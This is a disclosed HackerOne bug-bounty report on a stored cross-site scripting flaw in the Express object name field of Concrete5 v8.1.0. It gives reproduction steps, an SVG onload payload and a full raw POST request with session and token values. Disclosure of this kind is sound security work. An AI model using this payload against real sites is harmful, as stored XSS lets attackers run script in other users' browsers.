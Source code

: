 # Stored XSS in Express Objects - Concrete5 v8.1.0

## Report Details
- **Report ID**: 221325
- **URL**: https://hackerone.com/reports/221325
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-04-16T04:30:59.715Z
- **Disclosed**: 2017-05-17T18:16:26.662Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
**Summary / Description:**
The Entry Name (`name`) parameter does not correctly sanitize user input. This allows HTML & Javascript to be stored and executed any time someone visits `index.php/dashboard/express/entries` 

## Steps to Reproduce
1. Open up Firefox
2. Login (/index.php/login)
3. Visit (/index.php/dashboard/express/entries) and Click `Add Object`
4. Put `"><svg/onload=confirm(document.domain)>` as the name
5. Put whatever you want in the other fields and click submit

**POST REQUEST**
```
POST /index.php/dashboard/system/express/entities/add HTTP/1.1
Host: ec2-54-152-47-36.compute-1.amazonaws.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://ec2-54-152-47-36.compute-1.amazonaws.com/index.php/dashboard/system/express/entities/add
Cookie: CONCRETE5=me1oe767h2pqntejn04r7res44; CONCRETE5_LOGIN=1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 187

ccm_token=1492316818%3A96b9be81cefadc7cd0652797767ad64f&name=%22%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E&handle=blah&plural_handle=blah&description=&owned_by=&owning_type=many
```
6. `<svg/onload=confirm(document.domain)>` will be executed in your browser!

Now anytime you visit /index.php/dashboard/system/express/entities , the payload will be stored and executed!

## Product, Version, and Configuration (If applicable)
Concrete5 v8.1.0

## Suggested Mitigation/Remediation Actions
Sanitize the `name` parameter :P

## Attachments
- concrete5_object.png
- concrete5_object_stored_xss.png
- concrete5_object_xss.png
